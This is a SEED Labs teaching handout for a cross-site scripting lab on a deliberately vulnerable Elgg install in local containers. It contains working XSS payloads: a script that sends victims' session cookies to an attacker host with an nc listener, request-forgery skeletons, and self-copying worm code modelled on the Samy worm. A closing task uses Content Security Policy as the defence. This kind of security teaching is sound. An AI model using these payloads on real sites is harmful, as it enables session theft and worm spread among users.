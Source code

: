 
=====================================
Cross-Site Scripting (XSS) Attack Lab 
=====================================
(Web Application: Elgg)

Overview
========

Cross-site scripting (XSS) is a type of vulnerability commonly found in
web applications. This vulnerability makes it possible for attackers to
inject malicious code (e.g. JavaScript programs) into victim’s web
browser. Using this malicious code, attackers can steal a victim’s
credentials, such as session cookies. The access control policies (i.e.,
the same origin policy) employed by browsers to protect those
credentials can be bypassed by exploiting XSS vulnerabilities.

To demonstrate what attackers can do by exploiting XSS vulnerabilities,
we have set up a web application named Elgg in our pre-built Ubuntu VM
image. Elgg is a very popular open-source web application for social
network, and it has implemented a number of countermeasures to remedy
the XSS threat. To demonstrate how XSS attacks work, we have commented
out these countermeasures in Elgg in our installation, intentionally
making Elgg vulnerable to XSS attacks. Without the countermeasures,
users can post any arbitrary message, including JavaScript programs, to
the user profiles.

In this lab, students need to exploit this vulnerability to launch an
XSS attack on the modified Elgg, in a way that is similar to what Samy
Kamkar did to MySpace in 2005 through the notorious Samy worm. The
ultimate goal of this attack is to spread an XSS worm among the users,
such that whoever views an infected user profile will be infected, and
whoever is infected will add you (i.e., the attacker) to his/her friend
list. This lab covers the following topics:

-  Cross-Site Scripting attack

-  XSS worm and self-propagation

-  Session cookies

-  HTTP GET and POST requests

-  JavaScript and Ajax

-  Content Security Policy (CSP)

Readings
--------

Detailed coverage of the Cross-Site Scripting attack can be found in the
following:

-  Chapter 10 of the SEED Book, Computer & Internet Security: A Hands-on Approach, 2nd Edition,
   by Wenliang Du. See details at `<https://www.handsonsecurity.net>`_.

Lab environment setup
---------------------

This lab has been tested on our pre-built Ubuntu 20.04 VM, which can be downloaded
from the SEED website. Since we use containers to set up the lab environment, this lab does not depend
much on the SEED VM. You can do this lab using other VMs, physical machines, or VMs on the cloud.

Lab Environment
===============

DNS Setup
---------

We have set up several websites for this lab. They are hosted by the
container ``10.9.0.5``. We need to map the names of the web server to
this IP address. Please add the following entries to ``/etc/hosts``. You
need to use the root privilege to modify this file:

::

   10.9.0.5        www.seed-server.com
   10.9.0.5        www.example32a.com
   10.9.0.5        www.example32b.com
   10.9.0.5        www.example32c.com
   10.9.0.5        www.example60.com
   10.9.0.5        www.example70.com

Container Setup and Commands
----------------------------

Please download the ``Labsetup.zip`` file to your VM from the lab’s website, unzip it, enter the ``Labsetup``
folder, and use the ``docker-compose.yml`` file to set up the lab environment. Detailed explanation of the
content in this file and all the involved ``Dockerfile`` can be found from the user manual, which is linked
to the website of this lab. If this is the first time you set up a SEED lab environment using containers, it is
very important that you read the user manual.

In the following, we list some of the commonly used commands related to Docker and Compose. Since
we are going to use these commands very frequently, we have created aliases for them in the ``.bashrc`` file
(in our provided SEEDUbuntu 20.04 VM).

::

   $ docker-compose build     # Build the container image
   $ docker-compose up        # Start the container
   $ docker-compose down      # Shut down the container

   // Aliases for the Compose commands above
   $ dcbuild                  # Alias for: docker-compose build
   $ dcup                     # Alias for: docker-compose up
   $ dcdown                   # Alias for: docker-compose down

All the containers will be running in the background. To run commands on a container, we often need
to get a shell on that container. We first need to use the "``docker ps``" command to find out the ID of
the container, and then use "``docker exec``" to start a shell on that container. We have created aliases for
them in the ``.bashrc`` file.

::

   $ dockps         // Alias for: docker ps --format "{{.ID}} {{.Names}}"
   $ docksh <id>    // Alias for: docker exec -it <id> /bin/bash

   // The following example shows how to get a shell inside hostC
   $ dockps
   b1004832e275 hostA-10.9.0.5
   0af4ea7a3e2e hostB-10.9.0.6
   9652715c8e0a hostC-10.9.0.7

   $ docksh 96
   root@9652715c8e0a:/#

   // Note: If a docker command requires a container ID, you do not need to
   // type the entire ID string. Typing the first few characters will
   // be sufficient, as long as they are unique among all the containers.
   
If you encounter problems when setting up the lab environment, please read the “Common Problems”
section of the manual for potential solutions.

Elgg Web Application
--------------------
We use an open-source web application called Elgg in this lab. Elgg is a
web-based social-networking application. It is already set up in the
provided container images; its URL is http://www.seed-server.com. We use
two containers, one running the web server (``10.9.0.5``) , and the
other running the MySQL database (``10.9.0.6``). The IP addresses for
these two containers are hardcoded in various places in the
configuration, so please do not change them from the
``docker-compose.yml`` file.

**MySQL database**. Containers are usually disposable, so once it is destroyed, all the data inside the containers are lost. For this lab, we do want to keep the data in the MySQL database, so we do not lose
our work when we shutdown our container. To achieve this, we have mounted the mysql data folder
on the host machine (inside Labsetup, it will be created after the MySQL container runs once) to the
``/var/lib/mysql`` folder inside the MySQL container. This folder is where MySQL stores its database.
Therefore, even if the container is destroyed, data in the database are still kept. If you do want to start from
a clean database, you can remove this folder:

::

   $ sudo rm -rf mysql_data

**User accounts**. We have created several user accounts on the Elgg server; the user name and passwords
are given in the following.

::

   ----------------------------
   UserName | Password
   ----------------------------
   admin    | seedelgg
   alice    | seedalice
   boby     | seedboby
   charlie  | seedcharlie
   samy     | seedsamy
   ----------------------------

Lab Tasks
---------

When you copy and paste code from this PDF file, very often, the
quotation marks, especially single quote, may turn into a different
symbol that looks similar. They will cause errors in the code, so keep
that in mind. When that happens, delete them, and manually type those
symbols.

Preparation: Getting Familiar with the ``"HTTP Header Live"`` tool
------------------------------------------------------------------

In this lab, we need to construct HTTP requests. To figure out what an
acceptable HTTP request in Elgg looks like, we need to be able to
capture and analyze HTTP requests. We can use a Firefox add-on called
``"HTTP Header Live"`` for this purpose. Before you start working on
this lab, you should get familiar with this tool. Instructions on how to
use this tool is given in the Guideline section.

Task 1: Posting a Malicious Message to Display an Alert Window
==============================================================

The objective of this task is to embed a JavaScript program in your Elgg
profile, such that when another user views your profile, the JavaScript
program will be executed and an alert window will be displayed. The
following JavaScript program will display an alert window:

::

   <script>alert('XSS');</script> 

If you embed the above JavaScript code in your profile (e.g. in the
brief description field), then any user who views your profile will see
the alert window.

In this case, the JavaScript code is short enough to be typed into the
short description field. If you want to run a long JavaScript, but you
are limited by the number of characters you can type in the form, you
can store the JavaScript program in a standalone file, save it with the
.js extension, and then refer to it using the src attribute in the
<script> tag. See the following example:

::

   <script type="text/javascript" 
           src="http://www.example.com/myscripts.js">
   </script>

In the above example, the page will fetch the JavaScript program from
http://www.example.com, which can be any web server.

Task 2: Posting a Malicious Message to Display Cookies
======================================================

The objective of this task is to embed a JavaScript program in your Elgg
profile, such that when another user views your profile, the user’s
cookies will be displayed in the alert window. This can be done by
adding some additional code to the JavaScript program in the previous
task:

::

   <script>alert(document.cookie);</script> 

Task 3: Stealing Cookies from the Victim’s Machine
==================================================

In the previous task, the malicious JavaScript code written by the
attacker can print out the user’s cookies, but only the user can see the
cookies, not the attacker. In this task, the attacker wants the
JavaScript code to send the cookies to himself/herself. To achieve this,
the malicious JavaScript code needs to send an HTTP request to the
attacker, with the cookies appended to the request.

We can do this by having the malicious JavaScript insert an
<img> tag with its src attribute set to the
attacker’s machine. When the JavaScript inserts the img tag, the browser
tries to load the image from the URL in the src field; this results in
an HTTP GET request sent to the attacker’s machine. The JavaScript given
below sends the cookies to the port 5555 of the attacker’s machine (with
IP address 10.9.0.1), where the attacker has a TCP server listening to
the same port.

::

   <script>document.write('<img src=http://10.9.0.1:5555?c=' 
                          + escape(document.cookie) + '   >'); 
   </script> 

A commonly used program by attackers is ``netcat`` (or ``nc``) , which,
if running with the ``"-l"`` option, becomes a TCP server that listens
for a connection on the specified port. This server program basically
prints out whatever is sent by the client and sends to the client
whatever is typed by the user running the server. Type the command below
to listen on port ``5555``:

::

   $ nc -lknv 5555 

The ``-l`` option is used to specify that nc should listen for an
incoming connection rather than initiate a connection to a remote host.
The ``-nv`` option is used to have ``nc`` give more verbose output. The
``-k`` option means when a connection is completed, listen for another
one.

Task 4: Becoming the Victim’s Friend
====================================

In this and next task, we will perform an attack similar to what Samy
did to MySpace in 2005 (i.e. the Samy Worm). We will write an XSS worm
that adds Samy as a friend to any other user that visits Samy’s page.
This worm does not self-propagate; in task 6, we will make it
self-propagating.

In this task, we need to write a malicious JavaScript program that
forges HTTP requests directly from the victim’s browser, without the
intervention of the attacker. The objective of the attack is to add Samy
as a friend to the victim. We have already created a user called Samy on
the Elgg server (the user name is samy).

To add a friend for the victim, we should first find out how a
legitimate user adds a friend in Elgg. More specifically, we need to
figure out what are sent to the server when a user adds a friend.
Firefox’s ``HTTP`` inspection tool can help us get the information. It
can display the contents of any HTTP request message sent from the
browser. From the contents, we can identify all the parameters in the
request. Section 5 provides guidelines on how to use the tool.

Once we understand what the add-friend HTTP request look like, we can
write a JavaScript program to send out the same HTTP request. We provide
a skeleton JavaScript code that aids in completing the task.

::

   <script type="text/javascript">
   window.onload = function () {
     var Ajax=null;

     var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          ➀
     var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁

     //Construct the HTTP request to add Samy as a friend.
     var sendurl=...;  //FILL IN

     //Create and send Ajax request to add friend
     Ajax=new XMLHttpRequest();
     Ajax.open("GET", sendurl, true);
     Ajax.send();
   } 
   </script>

The above code should be placed in the ``"About Me"`` field of Samy’s
profile page. This field provides two editing modes: Editor mode
(default) and Text mode. The Editor mode adds extra HTML code to the
text typed into the field, while the Text mode does not. Since we do not
want any extra code added to our attacking code, the Text mode should be
enabled before entering the above JavaScript code. This can be done by
clicking on ``"Edit HTML"``, which can be found at the top right of the
``"About Me"`` text field.

Questions
---------

Please answer the following questions:

-  **Question 1:** Explain the purpose of Lines ➀ and ➁, why are they are
   needed?

-  **Question 2:** If the ``Elgg`` application only provide the Editor
   mode for the ``"About Me"`` field, i.e., you cannot switch to the
   Text mode, can you still launch a successful attack?

Task 5: Modifying the Victim’s Profile
======================================

The objective of this task is to modify the victim’s profile when the
victim visits Samy’s page. Specifically, modify the victim’s
``"About Me"`` field. We will write an XSS worm to complete the task.
This worm does not self-propagate; in task 6, we will make it
self-propagating.

Similar to the previous task, we need to write a malicious JavaScript
program that forges HTTP requests directly from the victim’s browser,
without the intervention of the attacker. To modify profile, we should
first find out how a legitimate user edits or modifies his/her profile
in Elgg. More specifically, we need to figure out how the HTTP POST
request is constructed to modify a user’s profile. We will use Firefox’s
HTTP inspection tool. Once we understand how the modify-profile HTTP
POST request looks like, we can write a JavaScript program to send out
the same HTTP request. We provide a skeleton JavaScript code that aids
in completing the task.

::

   <script type="text/javascript">
   window.onload = function(){
     //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
     //and Security Token __elgg_token
     var userName="&name="+elgg.session.user.name;
     var guid="&guid="+elgg.session.user.guid;
     var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
     var token="&__elgg_token="+elgg.security.token.__elgg_token;

     //Construct the content of your url.
     var content=...;     //FILL IN

     var samyGuid=...;    //FILL IN
     
     var sendurl=...;     //FILL IN
     
     if(elgg.session.user.guid!=samyGuid)           ➀
     {
        //Create and send Ajax request to modify profile
        var Ajax=null;
        Ajax=new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type",
                              "application/x-www-form-urlencoded");
        Ajax.send(content);
     }
   }
   </script>

Similar to Task 4, the above code should be placed in the ``"About Me"``
field of Samy’s profile page, and the Text mode should be enabled before
entering the above JavaScript code.

Questions 2
-----------

Please answer the following questions:

-  **Question 3:** Why do we need Line ➀? Remove this line, and repeat
   your attack. Report and explain your observation.

Task 6: Writing a Self-Propagating XSS Worm
===========================================

To become a real worm, the malicious JavaScript program should be able
to propagate itself. Namely, whenever some people view an infected
profile, not only will their profiles be modified, the worm will also be
propagated to their profiles, further affecting others who view these
newly infected profiles. This way, the more people view the infected
profiles, the faster the worm can propagate. This is exactly the same
mechanism used by the Samy Worm: within just 20 hours of its October 4,
2005 release, over one million users were affected, making Samy one of
the fastest spreading viruses of all time. The JavaScript code that can
achieve this is called a self-propagating cross-site scripting worm. In
this task, you need to implement such a worm, which not only modifies
the victim’s profile and adds the user “Samy” as a friend, but also add
a copy of the worm itself to the victim’s profile, so the victim is
turned into an attacker.

To achieve self-propagation, when the malicious JavaScript modifies the
victim’s profile, it should copy itself to the victim’s profile. There
are several approaches to achieve this, and we will discuss two common
approaches.

Link Approach:
--------------

If the worm is included using the src attribute in the <script> tag,
writing self-propagating worms is much easier. We have discussed the src
attribute in Task 1, and an example is given below. The worm can simply
copy the following <script> tag to the victim’s profile, essentially
infecting the profile with the same worm.

::

   <script type="text/javascript" src="http://www.example.com/xss_worm.js">
   </script>

DOM Approach:
-------------

If the entire JavaScript program (i.e., the worm) is embedded in the
infected profile, to propagate the worm to another profile, the worm
code can use DOM APIs to retrieve a copy of itself from the web page. An
example of using DOM APIs is given below. This code gets a copy of
itself, and displays it in an alert window:

::

   <script id="worm">
      var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; ➀
      var jsCode = document.getElementById("worm").innerHTML;          ➁
      var tailTag = "</" + "script>";                                  ➂
      
      var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); ➃
         
      alert(jsCode);
   </script>

It should be noted that innerHTML (line ➁) only gives us the inside part
of the code, not including the surrounding script tags. We just need to
add the beginning tag <script id="worm"> (line ➀) and the ending tag
</script> (line ➂) to form an identical copy of the malicious code.

When data are sent in HTTP POST requests with the Content-Type set to
application/x-www-
form-urlencoded, which is the type used in our code, the data should
also be encoded. The encoding scheme is called *URL encoding*, which
replaces non-alphanumeric characters in the data with %HH, a percentage
sign and two hexadecimal digits representing the ASCII code of the
character. The encodeURIComponent() function in line ➃ is used to URL-encode a string.

**Note:** In this lab, you can try both Link and DOM approaches, but the DOM
approach is required, because it is more challenging and it does not
rely on external JavaScript code.

Elgg’s Countermeasures
----------------------

This sub-section is only for information, and there is no specific task
to do. It shows how Elgg defends against the XSS attack. Elgg does have
built-in countermeasures, and we have disabled them to make the attack
work. Actually, Elgg uses two countermeasures. One is a custom built
security plugin ``HTMLawed``, which validates the user input and removes
the tags from the input. We have commented out the invocation of the
plugin inside the ``filter_tags()`` function in ``input.php``, which is
located inside . See the following:

::

   function filter_tags($var) {
      // return elgg_trigger_plugin_hook('validate', 'input', null, $var);
      return $var;
   }

In addition to HTMLawed, Elgg also uses PHP’s built-in method
``htmlspecialchars()`` to encode the special characters in user input,
such as encoding "<" to "&lt", ">" to "&gt", etc. This method is invoked
in ``dropdown.php``, ``text.php``, and ``url.php`` inside the vendor/elgg/elgg/views/
default/output/ folder. We have commented them out to turn off the countermeasure.

Task 7: Defeating XSS Attacks Using CSP
=======================================

The fundamental problem of the XSS vulnerability is that HTML allows
JavaScript code to be mixed with data. Therefore, to fix this
fundamental problem, we need to separate code from data. There are two
ways to include JavaScript code inside an HTML page, one is the inline
approach, and the other is the link approach. The inline approach
directly places code inside the page, while the link approach puts the
code in an external file, and then link to it from inside the page.

The inline approach is the culprit of the XSS vulnerability, because
browsers do not know where the code originally comes from: is it from
the trusted web server or from untrusted users? Without such knowledge,
browsers do not know which code is safe to execute, and which one is
dangerous. The link approach provides a very important piece of
information to browsers, i.e., where the code comes from. Websites can
then tell browsers which sources are trustworthy, so browsers know which
piece of code is safe to execute. Although attackers can also use the
link approach to include code in their input, they cannot place their
code in those trustworthy places.

How websites tell browsers which code source is trustworthy is achieved
using a security mechanism called Content Security Policy (CSP). This
mechanism is specifically designed to defeat XSS and ClickJacking
attacks. It has become a standard, which is supported by most browsers
nowadays. CSP not only restricts JavaScript code, it also restricts
other page contents, such as limiting where pictures, audio, and video
can come from, as well as restricting whether a page can be put inside
an iframe or not (used for defeating ClickJacking attacks). Here, we
will only focus on how to use CSP to defeat XSS attacks.

Experiment Website setup
------------------------

To conduct experiments on CSP, we will set up several websites. Inside
the ``Labsetup/image_www`` docker image folder, there is a file called
``apache_csp.conf``. It defines five websites, which share the same
folder, but they will use different files in this folder. The
``example60`` and ``example70`` sites are used for hosting JavaScript
code. The ``example32a``, ``example32b``, and ``example32c`` are the
three websites that have different CSP configurations. Details of the
configuration will be explained later.

**Changing the configuration file.** In the experiment, you need to modify this Apache configuration file
(``apache_csp.conf``). If you make a modification directly on the file
inside the image folder, you need to rebuild the image and restart the
container, so the change can take effect.

You can also modify the file while the container is running. The
downside of this option is that in order to keep the docker image small,
we have only installed a very simple text editor called ``nano`` inside
the container. It should be sufficient for simple editing. If you do not
like it, you can always add an installation command to the
``Dockerfile`` to install your favorite command-line text editor. On the
running container, you can find the configuration file
``apache_csp.conf`` inside the folder. After making changes, you need to
restart the Apache server for the changes to take effect:

::

   # service apache2 restart

**DNS Setup.** We will access the above websites from our VM. To access them through
their respective URLs, we need to add the following entries to the
``/etc/hosts`` file (if you have not done so already at the beginning of
the lab), so these hostnames are mapped to the IP address of the server
container (``10.9.0.5``). You need to use the root privilege to change
this file (using ``sudo``).

::

   10.9.0.5       www.example32a.com
   10.9.0.5       www.example32b.com
   10.9.0.5       www.example32c.com
   10.9.0.5       www.example60.com
   10.9.0.5       www.example70.com

The web page for the experiment
-------------------------------

The ``example32(a|b|c)`` servers host the same web page ``index.html``,
which is used to demonstrate how the CSP policies work. In this page,
there are six areas, ``area1`` to ``area6``. Initially, each area
displays ``"Failed"``. The page also includes six pieces of JavaScript
code, each trying to write ``"OK"`` to its corresponding area. If we can
see ``OK`` in an area, that means, the JavaScript code corresponding to
that area has been executed successfully; otherwise, we would see
``Failed``. There is also a button on this page. If it is clicked, a
message will pop up, if the underlying JavaScript code gets triggered.
The following is the expirement web pages index.html:

::

   <html>
   <h2 >CSP Experiment</h2>
   <p>1. Inline: Nonce (111-111-111): <span id='area1'>Failed</span></p>
   <p>2. Inline: Nonce (222-222-222): <span id='area2'>Failed</span></p>
   <p>3. Inline: No Nonce: <span id='area3'>Failed</span></p>
   <p>4. From self: <span id='area4'>Failed</span></p>
   <p>5. From www.example60.com: <span id='area5'>Failed</span></p>
   <p>6. From www.example70.com: <span id='area6'>Failed</span></p>
   <p>7. From button click: 
         <button onclick="alert('JS Code executed!')">Click me</button></p>

   <script type="text/javascript" nonce="111-111-111">
   document.getElementById('area1').innerHTML = "OK";
   </script>

   <script type="text/javascript" nonce="222-222-222">
   document.getElementById('area2').innerHTML = "OK";
   </script>

   <script type="text/javascript">
   document.getElementById('area3').innerHTML = "OK";
   </script>

   <script src="script_area4.js"> </script>
   <script src="http://www.example60.com/script_area5.js"> </script>
   <script src="http://www.example70.com/script_area6.js"> </script>
   </html>

Setting CSP Policies
--------------------

CSP is set by the web server as an HTTP header. There are two typical
ways to set the header, by the web server (such as Apache) or by the web
application. In this experiment, we will conduct experiments using both
approaches.

**CSP configuration by Apache.** Apache can set HTTP headers for all the responses, so we can use Apache
to set CSP policies. In our configuration, we set up three websites, but
only the second one sets CSP policies (the lines marked by ■). With this
setup, when we visit ``example32b``, Apache will add the specified CSP
header to all the response from this site.

::

   # Purpose: Do not set CSP policies
   <VirtualHost *:80>
       DocumentRoot /var/www/csp
       ServerName www.example32a.com
       DirectoryIndex index.html
   </VirtualHost>

   # Purpose: Setting CSP policies in Apache configuration
   <VirtualHost *:80>
       DocumentRoot /var/www/csp
       ServerName www.example32b.com
       DirectoryIndex index.html
       Header set Content-Security-Policy " \          ■
                default-src 'self'; \                  ■
                script-src 'self' *.example70.com \    ■
              "
   </VirtualHost>

   # Purpose: Setting CSP policies in web applications
   <VirtualHost *:80>                                  ●
       DocumentRoot /var/www/csp
       ServerName www.example32c.com
       DirectoryIndex phpindex.php
   </VirtualHost>

**CSP configuration by web applications.** For the third ``VirtualHost`` entry in our configuration file (marked by ●
), we did not set up any CSP policy. However, instead of accessing
``index.html``, the entry point of this site is ``phpindex.php``, which
is a PHP program. This program, listed below, adds a CSP header to the
response generated from the program.

::

   <?php
     $cspheader = "Content-Security-Policy:".
                  "default-src 'self';".
                  "script-src 'self' 'nonce-111-111-111' *.example70.com".
                  "";
     header($cspheader);
   ?>

   <?php include 'index.html';?>


Lab tasks 2
-----------

After starting the containers and making changes to the ``/etc/hosts``,
please visit the following URLs from your VM.

::

   http://www.example32a.com
   http://www.example32b.com
   http://www.example32c.com

#. Describe and explain your observations when you visit these websites.

#. Click the button in the web pages from all the three websites,
   describe and explain your observations.

#. Change the server configuration on ``example32b`` (modify the Apache
   configuration), so Areas 5 and 6 display OK. Please include your
   modified configuration in the lab report.

#. Change the server configuration on ``example32c`` (modify the PHP
   code), so Areas 1, 2, 4, 5, and 6 all display ``OK``. Please include
   your modified configuration in the lab report.

#. Please explain why CSP can help prevent Cross-Site Scripting attacks.


Guidelines
==========

Using the "HTTP Header Live" add-on to Inspect HTTP Headers
---------------------------------------------------------------

The version of Firefox (version 60) in our Ubuntu 16.04 VM does not support the LiveHTTPHeader
add-on, which was used in our Ubuntu 12.04 VM. A new add-on called "HTTP Header Live" is used
in its place. The instruction on how to enable and use this add-on tool is depicted in Figure 1. Just click the
icon marked by ➀; a sidebar will show up on the left. Make sure that HTTP Header Live is selected
at position ➁. Then click any link inside a web page, all the triggered HTTP requests will be captured and
displayed inside the sidebar area marked by ➂. If you click on any HTTP request, a pop-up window will
show up to display the selected HTTP request. Unfortunately, there is a bug in this add-on tool (it is still
under development); nothing will show up inside the pop-up window unless you change its size (It seems
that re-drawing is not automatically triggered when the window pops up, but changing its size will trigger
the re-drawing).

.. figure:: media/xss_img1.png
    :align: center
    :figclass: align-center

    Figure 1: Enable the HTTP Header Live Add-on

5.2 Using the Web Developer Tool to Inspect HTTP Headers
There is another tool provided by Firefox that can be quite useful in inspecting HTTP headers. The tool is
the Web Developer Network Tool. In this section, we cover some of the important features of the tool. The
Web Developer Network Tool can be enabled via the following navigation:

::
  
   Click Firefox’s top right menu --> Web Developer --> Network
      or
   Click the "Tools" menu --> Web Developer --> Network
 
We use the user login page in Elgg as an example. Figure 2 shows the Network Tool showing the HTTP
POST request that was used for login.

.. figure:: media/xss_img2.png
    :align: center
    :figclass: align-center

    Figure 2: HTTP Request in Web Developer Network Tool

To further see the details of the request, we can click on a particular HTTP request and the tool will
show the information in two panes (see Figure 3).
The details of the selected request will be visible in the right pane. Figure 4(a) shows the details of the
login request in the ``Headers`` tab (details include URL, request method, and cookie). One can observe
both request and response headers in the right pane. To check the parameters involved in an HTTP request,
we can use the ``Params`` tab. Figure 4(b) shows the parameter sent in the login request to Elgg, including
``username`` and ``password``. The tool can be used to inspect HTTP GET requests in a similar manner to
HTTP POST requests.

**Font Size**. The default font size of Web Developer Tools window is quite small. It can be increased by
focusing click anywhere in the Network Tool window, and then using Ctrl and + button

.. figure:: media/xss_img3.png
    :align: center
    :figclass: align-center

    Figure 3: HTTP Request and Request Details in Two Panes
   
.. figure:: media/xss_img4.png
    :align: center
    :figclass: align-center

    Figure 4: HTTP Headers and Parameters
   

JavaScript Debugging
--------------------
We may also need to debug our JavaScript code. Firefox’s Developer Tool can also help debug JavaScript
code. It can point us to the precise places where errors occur. The following instruction shows how to enable
this debugging tool:

::

   Click the "Tools" menu --> Web Developer --> Web Console
   or use the Shift+Ctrl+K shortcut.

Once we are in the web console, click the JS tab. Click the downward pointing arrowhead beside JS
and ensure there is a check mark beside Error. If you are also interested in Warning messages, click
Warning. See Figure 5.
If there are any errors in the code, a message will display in the console. The line that caused the error
appears on the right side of the error message in the console. Click on the line number and you will be taken
to the exact place that has the error. See Figure 6.

.. figure:: media/xss_img5.png
    :align: center
    :figclass: align-center

    Figure 5: Debugging JavaScript Code (1)

.. figure:: media/xss_img6.png
    :align: center
    :figclass: align-center

    Figure 6: Debugging JavaScript Code (2)


Submission
==========
You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.